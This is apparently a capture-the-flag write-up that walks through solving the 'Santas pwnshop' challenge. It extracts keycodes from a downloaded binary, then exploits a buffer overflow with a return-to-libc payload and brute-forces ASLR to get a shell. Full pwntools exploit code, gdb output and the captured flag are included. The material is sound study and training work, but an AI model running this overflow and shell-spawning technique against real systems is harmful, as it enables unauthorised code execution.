





# Santas pwnshop

## Introduction
The challenge is presented with the following text:
> Santa is giving out an early XMAS-gift to all the good little hackers. There's a secret backdoor to the PWNSHOP but it's protected by a very paranoid lock that automatically changes keycodes often. If we could hack that, we could grab as many XMAS-gifts as we wanted!

Also, we are given the following:
- **Service**: `nc 18.205.93.120 1205`
- A compressed file that contains the file `libc.so`, that is, the glibc shared library

When we connect to the remote service we obtain the following menu:

<kbd></kbd>

Moreover, if we wait a little bit we'll get a timeout message:
```
> [TIMEOUT] - Santa is a busy man this time of year!
```
so, whatever we do, we'll have to do it fast!

## Getting and unpacking Santa's gift
If we ask for our gift in the above menu, we will obtain a base64 encoded string:
```
Santa hands you your XMAS gift: (
H4sIADCPJ1wAA+08bXRbxZUjWSaKMYoT3CZpsu2DOiF8ROjDdmyyASu2nAQSx/gjJBuCIluypUQf
RnrKBwdoQA7ECJ/1dlM226+TXTjldBto2g2UsrA4OB8Lh3NqSgtsS0/TBc5RNulZWAxNqRPtvfPm
SfOe3thKe87+8rNH8+7MnTt37r1z5+O9N1/zrm81mUxEvcykjCB0dNBirYV4++1Kei2RyGyyjHyZ
/BW5gsIQ9gEOBAkKYLAQJZRB6AK46yGLFcPVAF/N8kws0AvKYtjngFsI5ZhWpeRbboPwM4sVw79A
Qo2Z0HoxH25JJeRXQh6GLMAYriAFHkJQJgR1Y2gBuIXLa/9QDgwuJ2TwGYsVw0FIO8jl3wn5xOC6
QqmedEA+z98kpE1y7bs5Eu65ORJYHgnHUnvsybjdpeRVsfw1bd2UXhlR2kJY2WqWhvmJY2UrfrQ8
9eT873z65Sfu+LsDXz1w3om4VzEaVFYS/LG0Z+54f1TPbwN3Pw+CUwd/RQev18FLdfAuDsaKv6TL
b9HBf6ODb+TguRA6dPmrdPlXQnjpMZAxhUF6INdelGc98a3b6EvKgXDMl0oGAyS4JyyTZLg/5o+Q
gZScJDSPDCTCMbmPJIL+AKbEU4AkJ+R4KkL8EX8iSpJBeVdPqo/4fEgaKPoTsi/qh6Jr1q9b3exz
2R2Q1x+Nx1ieD3kz5//4ezOzbRONq1g7qsLhqxArwuAJsJcrwJAuYFwBdoNxJdjyuMU6CwpWYQyE
qzEGY1iAMQhgMcagdAnjWdAfMLYSsgzj2YTchDEIrDN93pq9Dgg9NHYd6DOTnsjlcvtH5fLsj6H2
9Anr1jHCX7k6C5TMLbHCL4WXICchvD17BormliBHIcw7O05h5CyEzTs7SmHkMLQA4aMURk5DaB5n
D1MYOQ4tQ3iEwsh5yIHwPgpjC0JoqmcHKIwtCTUhvJ3CKLG+EZVf5+/vGfpd+oOP2rs6sl8l2Mym
...
nt1WOPNMxUP5PcH4Qzycn0/cRtjqQUsvy+HReWOT8gxfj/cxh4fzrybAi3F4Eov/wOpHPJyHP9uk
PNvX400yempdiHcDh2fiAv+c+F3A21eu9BEHKfS32Wob2LUZJmwmLkHtb3N1eFvWgc2bivH+D/Je
gNUQTwAA
)
```
If we save the string to a file, say `gift.txt`, decode it and save the result to a new file, we can see that it is in fact a gz compressed file:
```bash
$ cat gift.txt | base64 -d > gift.gz
$ file gift.gz
gift.gz: gzip compressed data, last modified: Sat Dec 29 15:13:52 2018, from Unix
```
So the next step will be, as usual, to unpack our gift to see what it is! Actually, using the [pwntools](https://github.com/Gallopsled/pwntools) Python library we can do the previous steps plus the unpacking with the following snippet:
```python
from pwn import *
import re

# connect to remote service, and select option 1
p = remote('18.205.93.120', 1205)
r = p.recvuntil('>')
p.send('1')

# get the response, and obtain the base64 text with a regex (which is all text between round brackets)
gift = p.recvuntil(')')
result = re.search(r'\(\n(.*)\n\)', gift, re.DOTALL)
gift_base64 = result.group(1)

# decode base64 text and write it to a file
gift_gz = b64d(gift_base64)
with open('gift.gz', 'w') as f:
    f.write(gift_gz)

# unzip gz file
os.system('gunzip gift.gz')
```
As we'll see later on, this will be helpful since we will have to repeat this process many times.

## Playing with our new gift

Once uncompressed, we see that a new file called `gift`, that is a 32-bit ELF file:
```bash
$ file gift
gift: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=72b40337b12d75a3179df51e964b91882388ec31, not stripped
```
So the first thing we do is analyze it with IDA. The view for the `menu` function is the following:

<kbd>

Here, what catches our attention immediately is the call to a function named `pwnshop_backdoor`. This function is called whenever the argument passed is 0x29a, that is, 666. Indeed, when we introduce this number in the menu we get:

<kbd>

So it seems we need to reverse engineer the function `pwnshop_backdoor` in order to get the keycodes. Taking a look at the disassembly of this function, we can spot easily the keycodes. Here's an excerpt of the disassembly:

<kbd>

In the image, we see that the first two keycodes are 0x548933 (5540147 in decimal) and 0x209a82 (2136706 in decimal). Then, the next keycode is ignored (see the instruction inside the orange rectangle): as long as it's not zero, the execution will proceed. Similar instructions then follow, making a total of 15 keycodes.

As you can see in the previous screenshot, the address of each instruction is included as well as the corresponding opcodes. For instance, looking at the first keycode we see that the instruction `cmp eax, 0x548933` corresponds to the opcode `3D` followed by the keycode `0x548933` in little-endian mode (i.e., `33 89 54 00`). Since the opcode only takes one byte, the address of the keycode is the one shown in the screenshot plus one. In this case, the keycode is stored at the address `0x80487c0`. Taking this into account (and reasoning similarly for the other 14 keycodes) we can further take advantage of the `pwntools` library to obtain all the keycodes and send them to the remote service with the following code:
```python
# load ELF file
gift_binary = ELF('./gift')
keycodes = [
    unpack(gift_binary.read(0x80487C0, 4)),  # read 4 bytes at address 0x80487C0 and unpack them to get a hex number
    unpack(gift_binary.read(0x80487D1, 4)),
    unpack(gift_binary.read(0x80487E2, 4)),
    unpack(gift_binary.read(0x80487F0, 4)),
    unpack(gift_binary.read(0x8048801, 4)),
    unpack(gift_binary.read(0x8048812, 4)),
    unpack(gift_binary.read(0x8048823, 4)),
    unpack(gift_binary.read(0x8048831, 4)),
    unpack(gift_binary.read(0x8048842, 4)),
    unpack(gift_binary.read(0x804884F, 4)),
    unpack(gift_binary.read(0x804885C, 4)),
    unpack(gift_binary.read(0x8048866, 4)),
    unpack(gift_binary.read(0x8048873, 4)),
    unpack(gift_binary.read(0x8048880, 4)),
    unpack(gift_binary.read(0x804888D, 4)),
    unpack(gift_binary.read(0x8048897, 4)),
]
# activate pwnshop_backdoor
p.send('666')
# send keycodes
for i in range(len(keycodes)):
    r = p.recvuntil('Enter keycode {}:'.format(i))
    p.send(str(keycodes[i]))
```
Note that, in the case where there's the `test eax, eax` instruction, we'll be reading/sending something that's not any keycode, but since it won't be zero it will always work.

When we send the keycodes, we get the following message:

<kbd>

Entering a new keycode does not return any flag... so what are we missing?

## Pwning the Pwnshop

To obtain the flag, we'll need to exploit a buffer overflow that exists at the last step, when we are asked to enter a new keycode. We're going to experiment with a local copy of the `gift` executable, debugging it with `gdb` enhanced with  [peda](https://github.com/longld/peda) (Python Exploit Development Assistance for GDB).

First, we send all the keycodes using the code provided above. Once we are asked to provide the new keycode, we can attach `gdb` to the running process. Then we can use the `pattc` command to create a pattern of, say, 100 characters and proceed with the execution:
```bash
gdb-peda$ pattc 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ c
Continuing.
```
If we provide this pattern as the new keycode, we'll see that the program crashes with a segmentation fault. As we see from the output of `gdb` + `peda`, the instruction pointer `EIP` references an invalid address `0x41434141`, which actually corresponds to the string 'AACA':

<kbd>

 As you can see above, we can use the `patto` command to determine the offset of this substring in the pattern above, which is 16.

At this point, we recall that we were given the `libc.so` library, so it seems pretty clear that we'll need to do a *return-to-libc attack* in order to spawn a shell. Summing up, what we have to do is pass a string with the address of the `system` function at offset 16. Moreover, we need to pass the string `'/bin/sh'` as an argument to this function. In between the two addresses we'll need to put 4 extra bytes (the next return address, but we won't care about that and we'll just pass a nonsense string). More precisely, when asked for the new keycode we will introduce the following:
```
AAAAAAAAAAAAAAAA[system address]BBBB['/bin/sh' address]
|_______________|______________|____|_________________|
        |               |         |          |
    16 bytes         4 bytes      |       4 bytes
                               4 bytes
```
We can do that with the following piece of code:
```python
# get response and send malicious payload
r = p.recvuntil('Enter new keycode:')
offset = 16
p.send('A'*offset + pack(system_address) + 'BBBB' + pack(binsh_address))
```
Before, however, we'll need to set `system_address` and `binsh_address` with the correct values.

To do that, we'll use `gdb`, but loading the `libc.so` library that was provided instead of the one we have in our system. Thus we are sure that we're getting the right addresses. We can do that setting the `LD_PRELOAD` environment variable to the desired library. In `gdb` we can use the `set environment` command:
```bash
$ gdb gift
...
gdb-peda$ set environment LD_PRELOAD ./libc.so
```
Then we can start the execution and use the `print` command and the `peda` command `find` to locate the desired addresses (note that we need to start the execution so that the shared library is loaded):
```bash
gdb-peda$ start
...
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e32d10 <system>.
gdb-peda$ find '/bin/sh'
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc.so : 0xf7f718cf ("/bin/sh")
```
Ok, so in the python code above we just need to define:
```python
system_address = 0xf7e32d10
binsh_address = 0xf7f718cf
```
and we're done... right? Almost, but not yet!

## Breaking ASLR & getting the flag

If we do as explained, we'll get a segmentation fault almost surely. Why? Well, all modern operating systems implement what is called Address Space Layout Randomization (ASLR), which in short means that the base address of the executable, as well as those of the stack, heap and shared libraries, change at every execution. We can see this turning off ASRL in `gdb` (since it is off by default) and running the program many times. Here we can see different addresses obtained:
```
system address        '/bin/sh' address
--------------        -----------------
0xf7d42d10            0xf7e818cf
0xf7de9d10            0xf7f288cf
0xf7e18d10            0xf7f578cf
0xf7e15d10            0xf7f548cf
0xf7dc0d10            0xf7eff8cf
0xf7d49d10            0xf7e888cf
...                   ...
```
But, although each time the addresses of the `system` function and `/bin/sh` are different, actually there are only 3 digits that vary: all the addresses have the form `0xf7...d10` for `system` and `0xf7...8cf` for `'/bin/sh'`. This makes a bruteforcing feasible: there are *only* 16<sup>3</sup> = 4096 possible addresses, so let's pick one (the first one, for example), and repeat the exploit until the real address matches our choice.

Now we are really done. Putting all the code in a loop, and waiting long enough eventually we get a working shell:
```bash
[+] Opening connection to 18.205.93.120 on port 1205: Done
[*] Switching to interactive mode
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ ls
chall
flag
redir.sh
$ cat flag
AOTW{s4nt4_l0v3s_BL4CKh4ts}
```
You can find all the code in the Python script [pwnshop_pwner.py](pwnshop_pwner.py).
